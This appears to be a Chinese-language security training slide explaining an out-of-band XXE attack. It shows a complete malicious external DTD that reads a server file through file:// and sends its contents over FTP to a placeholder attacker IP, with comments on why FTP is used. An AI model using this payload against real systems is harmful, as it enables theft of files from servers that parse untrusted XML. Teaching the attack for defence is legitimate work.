

# XXE攻击过程
在攻击端开启http服务，在服务器根目录下放置xxe.xml文件，xxe.xml
文件的内容如下：
<!ENTITY % file SYSTEM "file:///tmp/test.txt "> //通过file://可以读取服务器端的任意文件
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://攻击端IP:8000/%file;'>">
//通过http使用URL进行传输时，特殊字符可能会导致传输失败，所以选择了使用ftp进行文件传输
%int;
%send;